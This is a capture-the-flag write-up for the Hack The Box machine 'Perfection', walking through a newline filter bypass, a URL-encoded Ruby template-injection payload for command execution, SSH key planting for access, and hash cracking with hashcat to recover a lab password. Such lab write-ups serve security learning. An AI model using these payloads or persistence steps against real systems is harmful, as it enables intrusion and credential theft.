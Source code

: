 ```yaml
---
date: 2025-02-16
categories: [CTF, HTB]
title: "HTB - Perfection"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'xss']

description: "Perfection - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Perfection

NMAP

![image1](../resources/6ce18aca78e24775aa1bf582dbea55f5.png)

- On port 80 we get:

![image2](../resources/15189e31d7634540ad15fe4e28cd3ee2.png)

- After trying multiple characters, everything seems to be blocked by an XSS filter


![image3](../resources/9c2f6c871019421b867d497bd70f0b10.png)


![image4](../resources/a6a051d0f4b0472883d9c24f76c03a37.png)

- But then I found the newline character **%0A**

![image5](../resources/b00bdeb602d0400d9630829a7730c405.png)

- Open the request in Burp

- Enter a value for category1 and add the **%0A** and then a 'malicious character'
And now it doesn't seem to block it

- Since this is using Ruby we need to construct Ruby code that gets executed within the \<script\> tags:
```javascript
<script>document.write("<p>Server Hostname: <%= `hostname` %></p>");</script>
```

Now URL encode it:

```js
document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60ls%60%20%25%3E%3C%2Fp%3E%22%29%3B
```

The parameter category1 value will be:
```javascript
one%0A<script>document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60hostname%60%20%25%3E%3C%2Fp%3E%22%29%3B</script>
```
You must have the **%0A** there


![image6](../resources/4efd277667134a488b10ac067cb598bf.png)

- And we get the hostname back
- XSS is successful

- If we query **id** - we can see that we are user susan

![image7](../resources/d5ed4ab09d284080aa0e4ab09469ff4b.png)

And that she has sudo rights as well


![image8](../resources/924483b9630e4edb8be055c4e6ba8106.png)

- After doing some enumeration on susan's home folder -we get a file with credentials
**/home/susan/Migration/pupilpath_credentials.db**


![image9](../resources/47f58567e5b3413ab0903c70f010def1.png)


![image10](../resources/d50ab97750a8408e837ab868cfb932c2.png)

- We can connect to the box by:
Create a SSH key pair

```bash
chmod 600 id_rsa

```
**<u>In Burp:</u>**

```bash
mkdir /home/susan/.ssh

touch /home/susan/.ssh/authorized_keys

echo "<id_rsa.pub>" > /home/susan/.ssh/authorized_keys

```

```bash
ssh susan@10.129.208.176 -i id_rsa
```

![image11](../resources/e388b7ede795481dabe510f0d22f2fa6.png)

- We find a credentials file and the type of SQL db used:

![image12](../resources/27c7c0a4016f43abb435df233a7c3c2f.png)


![image13](../resources/991240b7c69c47a0a216e211019b7d0a.png)

- This couldn't be cracked using rockyou.txt

- Further enumeration revealed the file:
**/var/mail/susan**


![image14](../resources/2880f75162a843f4a3d72a66b89c3d15.png)

- Create a python script to generate a wordlist
I didn't do the whole range in one go, as the file would have been enormous:


![image15](../resources/ffea34060fa147fa8bb83c1e24f46235.png)


![image16](../resources/e430581d76bb427c9a87ab67cb99378d.png)

- After every generated list I tried it with hashcat:

```bash
hashcat -m 1400 -a 0 hash list

```

![image17](../resources/6c426031790b43fda2a98789fcd6066a.png)

**susan_nasus_413759210**

- And as susan has sudo rights:

![image18](../resources/2ef192ae37bf431f9d2aa08c69c6c5d8.png)